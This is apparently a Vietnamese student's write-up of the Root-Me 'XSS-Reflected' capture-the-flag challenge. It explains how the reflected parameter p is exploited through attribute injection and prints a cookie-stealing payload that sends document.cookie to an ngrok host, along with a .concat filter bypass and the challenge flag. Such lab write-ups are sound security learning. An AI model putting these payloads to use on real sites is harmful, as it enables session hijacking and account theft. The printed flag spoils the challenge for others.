


# Challenge: XSS-Reflected
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 80 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected 

- Mở đầu trang web không như những format như những bài trước, ta kiểm tra web có 1 form, tuy nhiên vẫn không khai thác được gì, kiểm tra mã nguồn của trang index.php ta thấy có một dòng bị ẩn

- Thử truy cập vào trang này

- ta thấy có trang thông báo lỗi 404, trang web có reder ra giá trị chữ "security" là giá trị của tham số p của phương thức GET

- Thử với giá trị khác

- Ta thấy giá trị của p được in lại ở 2 vị trí, 1 là value của tag, 2 là thuộc tính của tag, vì trang web đã lọc thay thế những kí tự đặt biệt của html nên ta loại bỏ 1, chúng ta thử khai thác ở vị trí thuộc tính tag, thay ?p = `onclick='alert(1)` khi đó, ta click vào "link" ta nhận được thông báo

- Như vậy bước đầu khai thác của ta thành công

- Vì trong thử thách có đề admin không click vào đường link lạ do vậy ta có thể chuyển sự sang thuộc tính khác là khi rê chuột `onmousemove`

- Đến đây để lấy được cookie ta có sẽ chèn với giá trị của p là: test' onmousemove='document.location="http://1173-113-161-73-246.ngrok.io/?cookie="+document.cookie

- tuy nhiên kí tự "+" được loại bỏ, do vậy ta sẽ thử với lệnh concat thì thấy thực đã thành công `test' onmousemove='document.location="http://1173-113-161-73-246.ngrok.io/?cookie=".concat(document.cookie)`

- Thực hiện nhập lại giá trị của p để truy cập vào trang và nhấn vào nút gởi report cho admin để nhận flag

## Kết quả flag là `r3fL3ct3D_XsS_fTw`